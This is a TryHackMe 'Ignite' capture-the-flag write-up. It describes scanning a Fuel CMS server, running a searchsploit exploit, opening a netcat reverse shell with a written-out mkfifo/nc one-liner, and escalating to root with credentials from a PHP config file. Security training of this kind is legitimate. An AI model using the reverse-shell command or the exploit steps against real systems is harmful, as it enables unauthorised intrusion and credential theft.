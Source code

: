 # TryHackMe: Ignite CTF Writeup

## Introduction

This CTF room is about Ignite where new start up is having issues with their web server and they want us to root it.  Its very straightforward and challenge is rated easy. I will cover on how I did the enumeration, exploitation and privilege escalation. Lets get started.


## Scanning with Nmap

Lets get scanning with nmap to find which ports are open.

Syntax - nmap -sV -sC -p- -T4 IP

![Nmap_result](assets/Nmap_scan.png)

Theres only 1 port open and thats port 80. There are some mentions such as robots.txt with disallowed entry, /fuel directory and title page for welcome to fuel CMS.


## Web Enumeration

Navigating to the website we get the welcome page for Fuel CMS along with admin credentials for logging in. Maybe we will find something useful.

![FuelCMS_Website](assets/fuel_cms.png)
![Admin_creds](assets/admin_login.png)

After checking the account thoroughly, there really wasn't anything important or just anything useful, this leads to nowhere.

However what we can do is since there is version number of CMS, this maybe a clue to find a possible exploit for it. We can use searchsploit to do just that.


## Exploitation


syntax- searchsploit software 1.4 

![Searchsploit](assets/Searchsploit.png)

and yes it is there. Lets try out the exploit and see if it works. 

Lets download it first

syntax- searchsploit -m exploit/path

![Searchsploit_download](assets/exploit_download.png)

Now that we have downloaded it, its time to execute the exploit and see if we get the access.

syntax- python3 exploit.py -u http://IP

After exploiting we have now got the access.

![Target connection](assets/target_connected.png)

## Reverse Shell 

However its difficult to navigate here since i can't spawn the shell, what i can do is use reverse shell and create a listener in my local machine.

Syntax- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP port >/tmp/f

and now we can spawn the shell and start navigating to find user.txt which is the first task question.

Syntax: python3 -c 'import pty; pty.spawn("/bin/bash")'

![Netcat_Listener](assets/netcat_listener.png)

we can find the user flag in home directory, Which answers the first task.

![User_flag](assets/user_flag.png)

Now we need to answer last task and that is root.txt. 

## Privilege Escalation

I have looked around the files but nothing useful so far, it became very time consuming process.

However i was wondering earlier, after getting connection through reverse shell, it was already in specific directory that relates with what was mentioned in the website. That was the first clue and another thing is the fuel directory which is mentioned in the webpage regarding credentials such as username and password in .php.

![webpage](assets/fuel_directory.png)

So i went to the directory that had the .php we need to access to find out if there are any credentials and will it be useful for escalation.

and there is indeed the credentials with root mentioned, however now its time to confirm if we can get the access to root.

![db_creds](assets/db_credentials.png)

Syntax- su user

and yes we did, which means now we can find the root.txt, answering the last task.

![root_flag](assets/root_flag.png)

## Conclusion

This CTF was good test on web enumeration, searchsploit for relevant exploit to gain access to target and identifying how to escalate privileges even without direct ssh access. This was fun CTF and very straightforward even though the process can be exhausting when navigating but more experience through error helps in narrowing down to what can be found and less time consuming process for the next time.